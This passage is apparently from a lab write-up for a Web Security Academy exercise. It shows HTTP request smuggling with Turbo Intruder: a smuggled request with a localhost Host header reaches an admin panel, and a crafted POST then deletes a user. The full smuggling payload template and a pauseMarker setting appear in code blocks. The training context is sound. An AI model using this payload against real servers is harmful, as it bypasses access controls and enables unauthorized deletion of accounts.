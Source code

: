 In Turbo Intruder, go back to the attack configuration screen. In your smuggled request, change the Host header to localhost and relaunch the attack.
**After 61 seconds**, notice that you have now successfully accessed the admin panel.

<img width="1903" height="861" alt="image" src="https://github.com/user-attachments/assets/8c08777f-0772-45cf-b651-8e373966263e" />


Study the response and observe that the admin panel contains an HTML form for deleting a given user. Make a note of the following details:

 • The action attribute (/admin/delete).
	• The name of the input (username).
	• The csrf token

<img width="1868" height="904" alt="image" src="https://github.com/user-attachments/assets/e0e85ec0-f6f7-49b2-b10c-87a7e482f8ea" />

We also copy csrf and cookie

<img width="1920" height="1029" alt="image" src="https://github.com/user-attachments/assets/f5d380f8-a5e2-4a91-abaf-35a0ed2c938f" />

We render response to know how it look like we can see that it is taking name of user to delete.

<img width="1890" height="880" alt="image" src="https://github.com/user-attachments/assets/a77ee602-6b52-442f-a79a-ab17e76fdb96" />


Go back to the attack configuration screen. Use these details to replicate the request that would be issued when submitting the form. The result should look something like this:
```http

POST /resources HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=YOUR-SESSION-COOKIE
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: CORRECT

POST /admin/delete/ HTTP/1.1
Host: localhost
Content-Type: x-www-form-urlencoded
Content-Length: CORRECT

csrf=YOUR-CSRF-TOKEN&username=carlos
```

To prevent Turbo Intruder from pausing after both occurrences of \r\n\r\n in the request, update the pauseMarker argument so that it only matches the end of the first set of headers, for example:
```
pauseMarker=['Content-Length: CORRECT\r\n\r\n']
```

Launch the attack.

<img width="1653" height="921" alt="image" src="https://github.com/user-attachments/assets/af83b7a5-1aca-431b-bfd4-e79c3f67a1df" />

After 61 seconds, the lab is solved.


<img width="1920" height="1010" alt="image" src="https://github.com/user-attachments/assets/7988d490-37a9-4c99-bd6a-c5b01abc9f55" />

lab is solved.

<img width="1761" height="557" alt="image" src="https://github.com/user-attachments/assets/13e4df40-dc55-4cfd-a1ce-1b839a17ec0f" />

---

